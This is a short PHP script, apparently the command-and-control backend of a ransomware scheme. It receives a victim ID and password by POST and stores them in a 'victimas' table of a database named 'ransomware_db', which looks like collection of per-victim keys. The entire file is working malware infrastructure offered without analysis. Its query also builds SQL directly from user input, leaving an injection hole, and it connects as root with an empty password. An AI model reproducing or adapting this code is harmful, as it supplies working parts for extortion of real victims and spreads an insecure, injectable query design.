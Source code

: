 <?php
$server = "localhost";
$username = "root";
$password = "";
$dbname = "ransomware_db";
$pass = (string)$_POST['pass'];
$id = (string)$_POST['id'];

$conn = new mysqli($server, $username, $password, $dbname);

if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error);
} 
$sql = "INSERT INTO victimas (IDD, PASS) VALUES ('$id', '$pass');";
if ($conn->query($sql) === TRUE) {
    echo "Ok.";
} else {
    echo "Error: " . $sql . "<br>" . $conn->error;
}
$conn->close();
?>
